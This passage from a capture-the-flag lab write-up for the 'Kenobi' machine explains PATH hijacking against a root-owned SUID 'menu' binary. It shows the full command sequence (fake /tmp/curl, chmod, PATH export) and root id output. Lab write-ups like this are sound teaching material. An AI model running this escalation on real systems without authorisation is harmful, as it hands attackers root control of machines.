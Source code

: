 Strings is a command on Linux that looks for human readable strings on a binary.
![disecting menu binary](.medias/kenobi/disect_binary.png)

This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).

As this file runs as the root users privileges, we can manipulate our path gain a root shell.

let's the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This means that when the /usr/bin/menu binary is run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it will run our shell as root!

```bash
kenobi@kenobi:~$ echo /bin/sh > /tmp/curl
kenobi@kenobi:~$ chmod 777 /tmp/curl
kenobi@kenobi:~$ export PATH=/tmp:$PATH
kenobi@kenobi:~$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# 
```

